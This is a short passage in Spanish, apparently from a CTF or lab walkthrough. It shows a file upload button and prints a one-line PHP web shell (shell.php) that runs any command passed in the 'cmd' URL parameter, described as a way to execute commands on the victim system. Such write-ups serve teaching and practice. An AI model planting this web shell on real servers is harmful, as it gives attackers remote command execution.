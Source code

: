 ![](upload_file.png)

Vemos un boton para poder subir un archivo

![](upload_file02.png)

Vamos a subir una [web shell](https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/) en php. 

shell.php
```php
<?php 
   echo(system($_GET['cmd']));
?>
```

Este archivo en php(web shell) nos permitira ejecutar comandos en el sistema victima. 

